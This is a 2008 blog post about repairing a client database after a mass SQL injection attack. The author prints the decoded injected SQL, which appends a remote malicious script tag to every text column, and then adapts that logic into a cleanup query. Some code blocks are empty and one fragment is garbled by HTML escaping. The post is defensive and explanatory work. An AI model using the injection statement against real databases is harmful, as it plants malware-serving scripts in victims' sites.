 ```yaml
---
id: 43
title: 'Using SQL Injection attack code to repair database'
date: '2008-09-25T15:33:33-04:00'
author: Tea
layout: revision
guid: 'http://www.wirelust.com/2008/09/25/39-revision-4/'
permalink: '/?p=43'
---
```


Now that Google has started flagging sites that are linking to badware in their index I've been getting quite a few calls from people who have been flagged and need to get back on track.

These are often sites that were written a while back (not by myself) when developers didn't think as much about SQL injection as they do now. Sometimes the code was just poorly written by someone who didn't know better. However it happened, each site has its own challenge.

Fixing the security hole is generally straight forward — I usually just have to identify where the SQL isn't properly escaped and fix that code. The hard part I have had fixing these sites is fixing the database itself. Some clients have backups, and some I can fix with [SQL Log Rescue](http://www.red-gate.com/products/SQL_Log_Rescue/index.htm), but generally a lot of small clients simply don't have great control over their server and often don't have any backups.

I had one such of these clients this week where their database had hundreds and hundreds of tables, all with malware code injected into the data. I was initially going to write a script to clean all the data, but after looking at the malware attack, I was able to use their own code to fix the database.

In the server log files. I noticed this request was coming in for every script several times a day. Looks like it just wanders the internet hoping that that id=2 in the query string won't be escaped in the code.

```php
 
```

If the id isn't escaped, as it wasn't in this situation, a query like this will hit your SQL server:

```tsql
 
```

hmm. okay. so what is it executing as the value of @S? If you change the statement from EXEC(@S) to PRINT(@S) you get this:  
<span style="
<pre class=" tsql="">span style="color: #FF0000;"&gt;'u'</span>'update \['+@T+'\] set \['+@C+'\]=''"&gt;&lt;/title&gt;&lt;script src="http://www.wirelust.com/baddies-script.js"&gt;&lt;/script&gt;&lt;!--''+\['+@C+'\] where '+@C+' not like ''%"&gt;&lt;/title&gt;&lt;script src="http://www.wirelust.com/baddies-script.js"&gt;&lt;/script&gt;&lt;!--'''

Final Code

```tsql
'u''update ['+@T+'] set ['+@C+']=Replace(['+@C+'], ''<script src=http://www.bnradw.com/b.js></script>'', '''') where '+@C+' like ''%<script src=http://www.bnradw.com/b.js></script>%'''-- exec(@SQL)
 
```